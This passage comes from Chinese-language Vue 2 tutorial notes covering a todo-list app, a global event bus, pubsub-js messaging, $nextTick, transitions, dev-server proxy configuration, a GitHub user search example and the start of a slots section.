          // 留下todo.done为false的对象
          return !todo.done
        })
      }
    },
    watch:{
      todos:{
        // 开启深度监视，当对象中的属性发生变化时，也能监视
        deep:true,
        handler(value){
          // value是todos发生变化后的返回值(新的todos),todo是对象
          localStorage.setItem('todos',JSON.stringify(value))
        }
        
      }
    }
}
</script>

<style>
 *{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
 }
  li{
  list-style: none;
 }
  button{
    padding:0 10px ;
    height: 30px;
    border-radius: 5px;
    color:#fff;
    background-color: rgb(182, 42, 42);
  }
  .banner{
    width: 400px;
    margin: 0px auto;
  }
  .container{
    padding-top: 10px;
    width: 410px;
    border: 1px solid #ccc;
    border-radius: 5px;
  }
</style>
```

**myfooter.vue**

```html
<template>
  <div class="todo-footer banner" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll">  -->
      <input type="checkbox" v-model="isAll"> 
        <span>已完成：{{doneTotal}}</span>/
        全部：{{total}}
    </label>
    <button @click="clearAll">清除已完成任务</button>

  </div>
</template>

<script>

export default {
    name:'My-footer',
    props:['todos',],
    data(){
      return {
        complete:1,       
      }
    },
    computed:{
      total(){ 
        return this.todos.length
      },
      doneTotal(){
       /*  普通方法  
        let i =0
        this.todos.map((item)=>{
        if(item.done){
            i++
          }
        })
        return i */

        // reduce 条件统计  pre是初始值0，第二次调用函数的pre是第一次调用函数的返回值,最后一次的pre的值为当前函数返回值；current是当前数据(todo项)
        /* const x = this.todos.reduce((pre,current)=>{
          return pre + (current.done ? 1 : 0)
        },0)
        console.log(x) */
        return this.todos.reduce((pre,todo)=> pre + (todo.done ? 1 : 0)
        ,0)
      },
      // 简写，只被读取不被修改
      isAll:{
        get(){
           // 总数大于0且总数和完成任务相同
          return this.total === this.doneTotal && this.total > 0
        },
        set(value){
          // value是布尔值，选中checkbox就是true，反之，false
          // this.checkAllTodo(value)
          this.$emit('checkAllTodo',value)
        }
       
      }
    },
    methods: {
      /* checkAll(e){
        this.checkAllTodo(e.target.checked)
      } */
      clearAll(){
        if(confirm('确认清除已完成任务吗?')){
          // this.clearAllTodo()
          this.$emit('clearAllTodo')
        }
      }
    },
   
}
</script>

<style lang="less" scoped>
  .todo-footer{
    display: flex;
    justify-content: space-between;
    align-items: center;
    padding:0 8px;
    width: 400px;
    height: 50px;
    border-radius: 5px;
    span{
      margin-left: 20px;
    }
  }
</style>
```

**myheader.vue**

```html
<template>
  <div class="todo-header banner">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认:" v-model="title"  @keyup.enter="add">
  </div>
</template>

<script>
import {nanoid} from 'nanoid'
export default {
    name:'My-header',
    data() {
      return {
        title:''
      }
    },
    methods: {
      add(){
        // 非空判断,校验数据(去除空格)
        if(!this.title.trim()){
          return alert('输入不能为空')
        }
        /* 
        获取当前输入框数据：方法1 ：e.target.value
        获取当前输入框数据：方法2 ：双向绑定(v-model)，但是需要在data里面配置属性 */

        // 将用户的输入包装为todo对象(不能重复的设置id=>nanoid(精简)=>uuid(完整))
        const todoObj ={id:nanoid(),title:this.title,done:false}
        // 通知App组件去添加一个todo对象
        this.$emit('addTodo',todoObj)
        // 清空输入
        this.title = ''
      }
    },
}
</script>

<style lang="less" scoped>
  .todo-header{
    width: 400px;
    height: 30px;
    input{
      padding: 8px;
      margin-bottom: 10px;
      width: 100%;
      height: 100%;
      border-radius: 5px;
      outline-style: none;
      border: 1px solid #ccc;
      &:hover{
        border: 1px solid skyblue;
      }
    }
   
  }
</style>
```


#### 2.12 全局事件总线(GlobalEventBus)

1. 一种组件间通信的方式，适用于【**任意组件间通信**】。

2. 安装全局事件总线：

   ```js
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   }) 
   ```

3. 使用事件总线：

   1. 接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的【**回调留在A组件自身**】。

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
          //不写上面的函数可以把回调函数（demo）写成箭头函数写在下面
        this.$bus.$on('xxxx',this.demo)
      }
      ```

   2. 提供数据：```this.$bus.$emit('xxxx',数据)```

4. 最好在beforeDestroy钩子中，用$off去解绑【**当前组件所用到的**】事件。

* **app.vue**

```html
<template>
  <div class="container banner">
    <!--给myheader组件添加了一个自定义事件 addTodo ,事件回调也是addTodo-->
    <My-header @addTodo="addTodo"></My-header>
    <My-List :todos="todos" ></My-List>
    <My-footer :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"></My-footer>

  </div>
</template>

<script>
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
import MyFooter from './components/MyFooter.vue'


export default {
    name:'App',
    components:{
        MyHeader,
        MyFooter,
        MyList       
    },
    data() {
      return {
        // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中(状态提升)
       todos:JSON.parse(localStorage.getItem('todos')) || []
      }
    },
    methods: {
      // 添加一个todo
      addTodo(todoObj){
        // 最前面追加todoObj
        this.todos.unshift(todoObj)
      },
      // 勾选或取消勾选一个todo
      checkTodo(id){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.done =!todo.done
        }
       })
      },
      // 删除todo
      deleteTodo(id){
       this.todos = this.todos.filter((todo)=> todo.id !== id) 
      },
      // 全选/取消全选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done
        })
      },
      // 清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
          // 留下todo.done为false的对象
          return !todo.done
        })
      }
    },
    watch:{
      todos:{
        // 开启深度监视，当对象中的属性发生变化时，也能监视
        deep:true,
        handler(value){
          // value是todos发生变化后的返回值(新的todos),todo是对象
          localStorage.setItem('todos',JSON.stringify(value))
        }
        
      }
    },
    mounted() {
      // 调用checkTodo函数
      this.$bus.$on('checkTodo',this.checkTodo)
      // 调用deleteTodo函数
      this.$bus.$on('deleteTodo',this.deleteTodo)
    },
    beforeDestroy(){
      // 销毁前解绑事件
      this.$bus.$off(['checkTodo','deleteTodo'])
    }
}
</script>

<style>
 *{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
 }
  li{
  list-style: none;
 }
  button{
    padding:0 10px ;
    height: 30px;
    border-radius: 5px;
    color:#fff;
    background-color: rgb(182, 42, 42);
  }
  .banner{
    width: 400px;
    margin: 0px auto;
  }
  .container{
    padding-top: 10px;
    width: 410px;
    border: 1px solid #ccc;
    border-radius: 5px;
  }
</style>
```

* **main.js**

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'

// 关闭Vue的生产提示
Vue.config.productionTip = false

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
  beforeCreate() {
    // 安装全局总线,触发事件总线的source是<Root>
    Vue.prototype.$bus = this
  },
})
```

* **myitem.vue**

```html
<template>
   <li class="item banner">
    <input 
    type="checkbox" 
    :checked="todo.done" 
    @click="handleCheck(todo.id)"
    >
    <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
    <!-- <input 
    type="checkbox" 
    v-model="todo.done"
    > -->
    <span>{{ todo.title }}</span>
    <button @click="handleDelete(todo.id)">删除</button>
   </li>
</template>

<script>
export default {
  name:'My-item',
  // 声明接收toDo对象
  props:['todo'],
  methods:{
    // 勾选/取消勾选
    handleCheck(id){
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id)
      this.$bus.$emit('checkTodo',id)
    },
    // 删除
    handleDelete(id){
      if(confirm('确认删除吗')){
        // this.deleteTodo(id)
        this.$bus.$emit('deleteTodo',id)
      }
    }
  }
}
</script>

<style scoped>
  li.item{
    margin-bottom: 5px;
    padding-left: 10px;
    border: 1px solid #ccc;
    width: 400px;
    height: 30px;
    border-radius: 5px;
    line-height: 28px;
  }
  li.item:hover{
    background-color: #ccc;
  }
  button{
    float: right;
    display: none;
  }
  button:hover{
    color: #ccc;
  }
  li.item:hover button{
    display: block;
  }
  span{
    margin: 0 4px;
  }
</style>
```

* **mylist.vue**

```html
<template>
<ul class="todo-main"> 
    <my-item 
    v-for="todoObj in todos" 
    :key="todoObj.id" 
    :todo="todoObj" 
    ></my-item>
    
 </ul>
</template>

<script>

import MyItem from './MyItem.vue'
export default {
    name:'My-list',
    components:{MyItem,},
    props:['todos'],
   
}
</script>

<style scoped>
  .todo-main{
    padding: 10px 0 50px 0;
  }  
</style>
```


#### 2.13 消息订阅与发布（pubsub）

> 1.订阅消息：消息名
>
> 2.发布消息：消息内容
>
> 第三方库：pubsub-js
>
> * pub-publish 发布
> * sub-subscribe 订阅

1. 一种组件间通信的方式，适用于【**任意组件间通信**】。

2. 使用步骤：

   1. 安装pubsub：```npm i pubsub-js```

   2. 引入: ```import pubsub from 'pubsub-js'```

   3. 接收数据：A组件想**接收**数据，则在A组件中**订阅**消息，订阅的【**回调留在A组件自身**】.

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```

   4. 提供数据：```pubsub.publish('xxx',数据)```

   5. 最好在beforeDestroy钩子中，用```PubSub.unsubscribe(pid)```去【**取消订阅**】。


* **student.vue**

```html
<template>
  <div class="student">
    <h2 >学生姓名：{{ name }}</h2>
    <h2>年龄：{{ age }}</h2>
    <button @click="sendStudentName">把学生名给school组件</button>
  </div>
</template>

<script>
import pubsub from 'pubsub-js'
export default {
   name:'s-tudent',
   data() {
    return {
        name:'小明',
        age:18,
        number:0
    }
   }, 
   mounted() {
    // console.log('student',this.$bus)
   },
   methods: {
    // 回调函数
    sendStudentName(){
      // this.$bus.$emit('hello',this.name)
      // 发布消息
      pubsub.publish('hello',666)
    }
   },
}
</script>

<style scoped>
.student{
  background-color: skyblue;
}
</style>
```

* **school.vue**

```js
<template>
  <div class="school">
    <h2 >学校姓名：{{ name }}</h2>
    <h2>地址：{{ address }}</h2>   
    </div>
</template>

<script>
// pubsub是一个对象
import pubsub from 'pubsub-js'
export default {
   name:'s-chool',
   data() {
    return {
        name:'尚硅谷',
        address:'成都',
    }
   }, 
   mounted() {
    // console.log('school',this.$on)
    // 绑定自定义事件
    /* this.$bus.$on('hello',(data)=>{
      console.log('我是school组件',data);
    }) */
    // 订阅消息,消息名是hello
    this.pubId = pubsub.subscribe('hello',(msgName,data)=>{
      // 不写箭头函数this是undefined
      console.log(this) //this是当前的(school)vc
      console.log('有人发布了hello消息,hello消息的回调执行了',msgName,data);
    })
    },
   beforeDestroy() {
      // this.$bus.$off('hello')
      // 取消订阅
      pubsub.unsubscribe(this.pubId)
    }
   
}
</script>

<style lang="less">
  .school{
    background-color: pink;
  }
</style>
```


#### 2.14 nextTick（改变代码执行顺序）

1. 语法：```this.$nextTick(回调函数)```
2. 作用：在【**下一次 DOM 更新结束后**】执行其指定的回调。
3. 什么时候用：当改变数据后，要【**基于更新后的新DOM**】进行某些操作时，要在nextTick所指定的回调函数中执行。

* **app.vue**

```html
<template>
  <div class="container banner">
    <!--给myheader组件添加了一个自定义事件 addTodo ,事件回调也是addTodo-->
    <My-header @addTodo="addTodo"></My-header>
    <My-List :todos="todos" ></My-List>
    <My-footer :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo"></My-footer>

  </div>
</template>

<script>
import PubSub from 'pubsub-js'
import MyHeader from './components/MyHeader.vue'
import MyList from './components/MyList.vue'
import MyFooter from './components/MyFooter.vue'


export default {
    name:'App',
    components:{
        MyHeader,
        MyFooter,
        MyList       
    },
    data() {
      return {
        // 由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中(状态提升)
       todos:JSON.parse(localStorage.getItem('todos')) || []
      }
    },
    methods: {
      // 添加一个todo
      addTodo(todoObj){
        // 最前面追加todoObj
        this.todos.unshift(todoObj)
      },
      // 勾选或取消勾选一个todo
      checkTodo(id){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.done =!todo.done
        }
       })
      },
      // 更新todo
      updateTodo(id,newVale){
       this.todos.forEach((todo)=>{
        if(todo.id ==id){
          todo.title = newVale
        }
       })
      },
      // 删除todo
      deleteTodo(_,id){
       this.todos = this.todos.filter((todo)=> todo.id !== id) 
      },
      // 全选/取消全选
      checkAllTodo(done){
        this.todos.forEach((todo)=>{
          todo.done = done
        })
      },
      // 清除所有已经完成的todo
      clearAllTodo(){
        this.todos = this.todos.filter((todo)=>{
          // 留下todo.done为false的对象
          return !todo.done
        })
      }
    },
    watch:{
      todos:{
        // 开启深度监视，当对象中的属性发生变化时，也能监视
        deep:true,
        handler(value){
          // value是todos发生变化后的返回值(新的todos),todo是对象
          localStorage.setItem('todos',JSON.stringify(value))
        }
        
      }
    },
    mounted() {
      // 调用checkTodo函数
      this.$bus.$on('checkTodo',this.checkTodo)
      // 调用deleteTodo函数
      // this.$bus.$on('deleteTodo',this.deleteTodo)

      // 消息订阅
      // 因为会收到两个参数，所以函数要使用【_】占位
      this.pubId = PubSub.subscribe('deleteTodo',this.deleteTodo)

      // 更新数据
      this.$bus.$on('updateTodo',this.updateTodo)
    },
    beforeDestroy(){
      // 销毁前解绑事件
      this.$bus.$off(['checkTodo'])
      // this.$bus.$off(['deleteTodo'])
      PubSub.unsubscribe(this.pubId)
      this.$bus.$off('updateTodo')
    }
}
</script>

<style>
 *{
  margin: 0;
  padding: 0;
  box-sizing: border-box;
 }
  li{
  list-style: none;
 }
  .btn{
    padding:0 10px ;
    height: 30px;
    border-radius: 5px;
    
  }
  .btn-danger{
    color:#fff;
    background-color: rgb(182, 42, 42);
    border: 1px solid rgb(180, 47, 47);
  }
  .btn-edit{
    margin-right: 5px;
    background-color: skyblue;
    color: #fff;
    border: 1px solid rgb(114, 175, 199);
  }

  .banner{
    width: 400px;
    margin: 0px auto;
  }
  .container{
    padding-top: 10px;
    width: 410px;
    border: 1px solid #ccc;
    border-radius: 5px;
  }
</style>
```

* **myitem.vue**

```html
<template>
   <li class="item banner">
    <input 
    type="checkbox" 
    :checked="todo.done" 
    @click="handleCheck(todo.id)"
    >
    <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
    <!-- <input 
    type="checkbox" 
    v-model="todo.done"
    > -->
    <span v-show="!todo.isEdit">{{ todo.title }}</span>
    <input   
    type="text"
    v-show="todo.isEdit" 
    :value="todo.title"
    @blur="handleBlur(todo,$event)"
    ref="inputTitle"
    >
    <button class="btn btn-danger"  @click="handleDelete(todo.id)">删除</button>
    <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
   </li>
</template>

<script>
import PubSub from 'pubsub-js';
export default {
  name:'My-item',
  // 声明接收toDo对象
  props:['todo'],
  methods:{
    // 勾选/取消勾选
    handleCheck(id){
      // 通知App组件将对应的todo对象的done值取反
      // this.checkTodo(id)
      this.$bus.$emit('checkTodo',id)
    },
    // 删除
    handleDelete(id){
      if(confirm('确认删除吗')){
        // this.deleteTodo(id)
        // this.$bus.$emit('deleteTodo',id)
        // 消息发布
        PubSub.publish('deleteTodo',id)
      }
    },   
    handleEdit(todo){
      // Object.hasOwn(对象名,'属性名') 判断对象里面是否有某个属性，返回值为布尔值
      if(Object.hasOwn(todo,'isEdit')){
        todo.isEdit = true
      }else{
        // console.log('todo')
        this.$set(todo,'isEdit',true) 
      }
      // 不执行，因为要handleEdit里面的代码全部执行完才会去重新解析模板，所以执行下面的代码时，input框还未被解析(被隐藏了)，所以不生效。解决方法可以通过定时器，或$nextTick()【nextTick指定的回调会在dom节点更新后执行
      this.$nextTick(function(){
        this.$refs.inputTitle.focus()
      })
    },
    // 失去焦点回调(真正执行修改逻辑)
    handleBlur(todo,e){
      todo.isEdit = false
      // console.log('updateTodo',todo.id,e.target.value)
      if(!e.target.value.trim()){
        return alert('输入不能为空')
      }
      this.$bus.$emit('updateTodo',todo.id,e.target.value)
    }
    },
    
   

}
</script>

<style scoped>
  li.item{
    margin-bottom: 5px;
    padding-left: 10px;
    border: 1px solid #ccc;
    width: 400px;
    height: 30px;
    border-radius: 5px;
    line-height: 28px;
  }
  li.item:hover{
    background-color: #ccc;
  }
  button{
    float: right;
    display: none;
  }
  button:hover{
    color: #ccc;
  }
  li.item:hover button{
    display: block;
  }
  span{
    margin: 0 4px;
  }
</style>
```

* **myfooter.vue**

```html
<template>
  <div class="todo-footer banner" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll">  -->
      <input type="checkbox" v-model="isAll"> 
        <span>已完成：{{doneTotal}}</span>/
        全部：{{total}}
    </label>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>

  </div>
</template>

<script>

export default {
    name:'My-footer',
    props:['todos',],
    data(){
      return {
        complete:1,       
      }
    },
    computed:{
      total(){ 
        return this.todos.length
      },
      doneTotal(){
       /*  普通方法  
        let i =0
        this.todos.map((item)=>{
        if(item.done){
            i++
          }
        })
        return i */

        // reduce 条件统计  pre是初始值0，第二次调用函数的pre是第一次调用函数的返回值,最后一次的pre的值为当前函数返回值；current是当前数据(todo项)
        /* const x = this.todos.reduce((pre,current)=>{
          return pre + (current.done ? 1 : 0)
        },0)
        console.log(x) */
        return this.todos.reduce((pre,todo)=> pre + (todo.done ? 1 : 0)
        ,0)
      },
      // 简写，只被读取不被修改
      isAll:{
        get(){
           // 总数大于0且总数和完成任务相同
          return this.total === this.doneTotal && this.total > 0
        },
        set(value){
          // value是布尔值，选中checkbox就是true，反之，false
          // this.checkAllTodo(value)
          this.$emit('checkAllTodo',value)
        }
       
      }
    },
    methods: {
      /* checkAll(e){
        this.checkAllTodo(e.target.checked)
      } */
      clearAll(){
        if(confirm('确认清除已完成任务吗?')){
          // this.clearAllTodo()
          this.$emit('clearAllTodo')
        }
      }
    },
   
}
</script>

<style lang="less" scoped>
  .todo-footer{
    display: flex;
    justify-content: space-between;
    align-items: center;
    padding:0 8px;
    width: 400px;
    height: 50px;
    border-radius: 5px;
    span{
      margin-left: 20px;
    }
  }
</style>
```


#### 2.15 Vue封装的过度与动画

1. 作用：在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名。

2. 图示：

   

3. 写法：

   1. 准备好样式(自己写/第三方动画库)：

      - 元素进入的样式：
        1. `v-enter`：进入的起点
        2. `v-enter-active`：进入过程中
        3. `v-enter-to`：进入的终点
      - 元素离开的样式：
        1. `v-leave`：离开的起点
        2. `v-leave-active`：离开过程中
        3. `v-leave-to`：离开的终点

   2. 使用```<transition>```包裹要过度的元素，并配置name属性：

      ```vue
      <transition name="hello">
      	<h1 v-show="isShow">你好啊！</h1>
      </transition>
      ```

   3. 备注：若有多个元素需要过度，则需要使用：```<transition-group>```，且每个元素都要指定唯一的```key```值。

> * 动画实现

```html
<template>
  <div>
    <!-- 点击后isShow取反 -->
    <button @click="isShow = !isShow">显示/隐藏</button>
    <!-- 第一次出现也会有动画，transition标签浏览器不解析，是给vue用的 -->
    <transition name="hello" appear>
        <h1 v-show="isShow" >你好啊</h1>
    </transition>
  </div>
</template>

<script>
export default {
    name:'t-est',
    data() {
        return {
            isShow:true
        }
    },
}
</script>

<style>
    h1{
        background-color: orange;
    }
    .hello-enter-active{
        animation: atguigu linear 1s;
    }
    .hello-leave-active{
        animation: atguigu 1s linear reverse;
    }
    @keyframes atguigu{
        from{
            transform: translateX(-100%);
        }
        to{
            transform: translateX(0px);
        }
    }
</style>
```

> * 过渡实现

```html
<template>
  <div>
    <!-- 点击后isShow取反 -->
    <button @click="isShow = !isShow">显示/隐藏</button>
    <!-- 第一次出现也会有动画，transition标签浏览器不解析，是给vue用的，transition只能对单使用 
    对多transition-group ，且必须要有唯一的key
    -->
    <transition-group name="hello" appear>
        <h1 v-show="!isShow" key="1">你好啊</h1>
        <h1 v-show="isShow" key="2">尚硅谷</h1>
    </transition-group>
  </div>
</template>

<script>
export default {
    name:'t-est',
    data() {
        return {
            isShow:true
        }
    },
}
</script>

<style>
    h1{
        background-color: orange;
        /* 配置过渡效果 */
    }
    /* 过渡效果实现动画 */
    /* 进入的起点，离开的终点 */
    .hello-enter,.hello-leave-to{
        /* -100%最右边 */
        transform: translateX(-100%);
    }
    .hello-enter-active,.hello-leave-active{
        transition: 0.5s linear;
    }
    /* 进入的终点,离开的起点 */
    .hello-enter-to,.hello-leave{
        transform: translateX(0);
    }
    
</style>
```

> * 第三方库实现

```html
<template>
  <div>
    <!-- 点击后isShow取反 -->
    <button @click="isShow = !isShow">显示/隐藏</button>
    <!-- 第一次出现也会有动画，transition标签浏览器不解析，是给vue用的，transition只能对单使用 
    对多transition-group ，且必须要有唯一的key
    -->
    <transition-group 
        name="animate__animated animate__bounce" 
        appear
        enter-active-class="animate__swing"
        leave-active-class="animate__backOutUp"
        >
        <h1 v-show="!isShow" key="1">你好啊</h1>
        <h1 v-show="isShow" key="2">尚硅谷</h1>
    </transition-group>
  </div>
</template>

<script>
// 引入样式不需要写from
import 'animate.css'
export default {
    name:'t-est',
    data() {
        return {
            isShow:true
        }
    },
}
</script>

<style>
    h1{
        background-color: orange;
        /* 配置过渡效果 */
    }
    
    
</style>
```

**todolist动画效果**

* mylist.vue

```html
<template>
<ul class="todo-main">    
    <transition-group name="todo" appear>
      <my-item 
      v-for="todoObj in todos" 
      :key="todoObj.id" 
      :todo="todoObj" 
      ></my-item>
    </transition-group>
 </ul>
</template>

<script>

import MyItem from './MyItem.vue'
export default {
    name:'My-list',
    components:{MyItem,},
    props:['todos'],
   
}
</script>

<style scoped>
  .todo-main{
    padding: 10px 0 50px 0;
  }  
  .todo-enter-active{
    animation: todo 0.5s linear ;
  }
  .todo-leave-active{
    animation: todo 0.5s linear reverse;
  }
  @keyframes todo {
    from{
      /* 从右边出来 */
      transform: translateX(100%);
    }
    to{
      transform: translateX(0);
    }
  }
</style>
```


#### 2.16 vue脚手架配置代理

> * public文件夹有的东西都是8080有的

##### 方法一

​	在vue.config.js中添加如下配置：

```js
// 开启代理服务器
devServer:{
  proxy:"http://localhost:5000"
}
```

说明：

1. 优点：配置简单，请求资源时直接发给前端（8080）即可。
2. 缺点：**不能配置多个代理**，**不能灵活的控制请求是否走代理**（如果public文件夹里面有请求的同名文件夹，但是我们想要去代理服务器拿数据，此时会去public里面拿数据）。
3. 工作方式：若按照上述配置代理，当请求了前端**不存在**的资源时，那么该请求会转发给服务器 （**优先匹配前端资源**）

##### 方法二

​	编写vue.config.js配置具体代理规则：

```js
module.exports = {
	devServer: {
      proxy: {
      '/api1': {// 匹配所有以 '/api1'开头的请求路径
        target: 'http://localhost:5000',// 代理目标的基础路径(只写到端口号)
        changeOrigin: true,
        pathRewrite: {'^/api1': ''}
      },
      '/api2': {// 匹配所有以 '/api2'开头的请求路径
        target: 'http://localhost:5001',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api2': ''}
      }
    }
  }
}
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

说明：

1. 优点：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. 缺点：配置略微繁琐，请求资源时必须加前缀。

* **app.vue**

```html
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>

<script>
  import axios from 'axios'
  export default {
    name: 'App',
    methods: {
      // 跨域：违背了同源策略(协议名，主机名，端口号必须都一样)，同源策略是前端的
      // 解决：通过代理服务器(cli),如果public里面有students文件夹，那就不会去代理服务器里面拿数据
      getStudents() {
        // 前缀写在端口号后面
        axios.get('http://localhost:8080/atguigu/students').then(
          (res) => {
            //成功回调
            console.log(res.data)
          },
          (error) => {
            console.log('请求失败了', error.message)
          }
        )
      },
      getCars() {
        // 前缀写在端口号后面
        axios.get('http://localhost:8080/demo/cars').then(
          (res) => {
            //成功回调
            console.log(res.data)
          },
          (error) => {
            console.log('请求失败了', error.message)
          }
        )
      },
    },
  }
</script>
```

* **vue.config.js**

```js
const { defineConfig } = require('@vue/cli-service')
module.exports = defineConfig({
  transpileDependencies: true,
  lintOnSave: false, //关闭语法检查
  /* devServer: {
    host: '0.0.0.0',
    // https:true,
    port: 8080,
    client: {
      webSocketURL: 'ws://0.0.0.0:8080/ws',
    },
    headers: {
      'Access-Control-Allow-Origin': '*',
    },
  }, */
  // 开启代理服务器(方式一)
  /* devServer: {
    proxy: 'http://localhost:5000',
  }, */

  // 开启代理服务器(方式二)
  devServer: {
    proxy: {
      // 请求前缀,如果请求前缀是atguigu，那就把请求转发给http://localhost:5000
      '/atguigu': {
        target: 'http://localhost:5000',
        // 重写路径 ^/atguigu 把所有(正则^)atguigu前缀变为空
        pathRewrite: { '^/atguigu': '' },
        // ws: true, //用于支持websocket,默认为true
        // changeOrigin: true,
        /* 通俗： 为true是说谎(该案例下端口号为5000【说谎】)，为false是不说慌(该案例下端口号为8080【不说谎】) 
        官方：用于控制请求头中的host值，,默认为true
        */
      },
      '/demo': {
        target: 'http://localhost:5001',
        // 重写路径 ^/atguigu 把所有(正则^)atguigu前缀变为空
        pathRewrite: { '^/demo': '' },
        // ws: true, //用于支持websocket，,默认为true
        // changeOrigin: true,
        /* 通俗： 为true是说谎(该案例下端口号为5000【说谎】)，为false是不说慌(该案例下端口号为8080【不说谎】) 
        官方：用于控制请求头中的host值，,默认为true
        */
      },
    },
  },
})
```


#### 2.17 github搜索案例

> 发送ajax请求方式
>
> * xhr
> * jQuery
> * **axios**（推荐）
> * fetch
> * vue-resource（vue的插件库）就把axios换为$http,其他代码全部一样

* **app.vue**

```html
<template>
  <div class="container">
    <Search></Search>
    <List />
  </div>
</template>

<script>
  import Search from './components/Search.vue'
  import List from './components/List.vue'
  export default {
    components: { Search, List },
    name: 'App',
  }
</script>
```

* **search.vue**

```html
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input
        type="text"
        placeholder="enter the name you search"
        v-model="keyword" />&nbsp;
      <button @click="searchUsers">Search</button>
    </div>
  </section>
</template>

<script>
  import axios from 'axios'
  export default {
    name: 'Search',
    data() {
      return {
        keyword: '',
      }
    },
    methods: {
      searchUsers() {
        // 请求前更新List的数据
        this.$bus.$emit('updateListData', {
          isFirst: false,
          isLoading: true,
          errMsg: '',
          users: [],
        })
        axios.get(`https://api.github.com/search/users?q=${this.keyword}`).then(
          (res) => {
            console.log('请求成功')
            // 请求成功后更新List的数据
            this.$bus.$emit('updateListData', {
              isLoading: false,
              errMsg: '',
              users: res.data.items,
            })
          },
          (error) => {
            console.log('请求失败', error.message)
            // 请求失败后更新List的数据
            this.$bus.$emit('updateListData', {
              isLoading: false,
              errMsg: error.message,
              users: [], //清空用户
            })
          }
        )
      },
    },
  }
</script>
```

* **list.vue**

```html
<template>
  <div class="row">
    <div
      v-show="info.users.length"
      class="card"
      v-for="user in info.users"
      :key="user.id">
      <!-- 动态绑定要加【：】 -->
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{ user.login }}</p>
    </div>
    <!-- 展示欢迎词 -->
    <h1 v-show="info.isFirst">欢迎使用</h1>
    <!-- 展示欢迎词 -->
    <h1 v-show="info.isLoading">加载中</h1>
    <!-- 展示欢迎词 -->
    <h1 v-show="info.errMsg">{{ info.errMsg }}</h1>
  </div>
</template>

<script>
  export default {
    name: 'List',
    data() {
      return {
        info: {
          isFirst: true, //是否为第一次加载
          isLoading: false,
          errMsg: '',
          users: [],
        },
      }
    },
    mounted() {
      // 接收方创建
      this.$bus.$on('updateListData', (dataObj) => {
        // console.log(dataObj)
        this.info = { ...this.info, ...dataObj } //合并两个对象，重名以后面的为主
      })
    },
  }
</script>

<style>
  .album {
    min-height: 50rem; /* Can be removed; just added for demo purposes */
    padding-top: 3rem;
    padding-bottom: 3rem;
    background-color: #f7f7f7;
  }

  .card {
    float: left;
    width: 33.333%;
    padding: 0.75rem;
    margin-bottom: 2rem;
    border: 1px solid #efefef;
    text-align: center;
  }

  .card > img {
    margin-bottom: 0.75rem;
    border-radius: 100px;
  }

  .card-text {
    font-size: 85%;
  }
</style>
```

* **main.js**

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'

// 关闭Vue的生产提示
Vue.config.productionTip = false

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
  beforeCreate() {
    // 安装全局总线,触发事件总线的source是<Root>
    Vue.prototype.$bus = this
  },
})
```


#### 2.18 插槽Slot

1. 作用：让父组件可以向子组件指定位置插入**html结构**，也是一种组件间通信的方式，适用于【**父组件 ===> 子组件**】。

2. 分类：默认插槽、具名插槽、作用域插槽

3. 使用方式：

   1. 默认插槽：

      ```vue
      父组件中：
              <Category>
                 <div>html结构1</div>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot>插槽默认内容...</slot>
                  </div>
              </template>
      ```

   2. 具名插槽：

      ```vue
      父组件中：
              <Category>
                  <template slot="center">
                    <div>html结构1</div>
                  </template>

                  <template v-slot:footer>
                     <div>html结构2</div>
                  </template>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot name="center">插槽默认内容...</slot>
                     <slot name="footer">插槽默认内容...</slot>
                  </div>
              </template>
      ```

   3. 作用域插槽：

      1. 理解：【**数据在组件的自身**（定义插槽的文件里面），**但根据数据生成的结构需要组件的使用者来决定。**】（games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定）

      2. 具体编码：

         ```vue
         父组件中：
         		<Category>
         			<template scope="scopeData">	
         				<!-- scopeData是 { "games": [ "红色警戒", "穿越火线", "劲舞团", "超级玛丽" ] } -->
         				<!-- 生成的是ul列表 -->
         				<ul>
         					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
         				</ul>
         			</template>
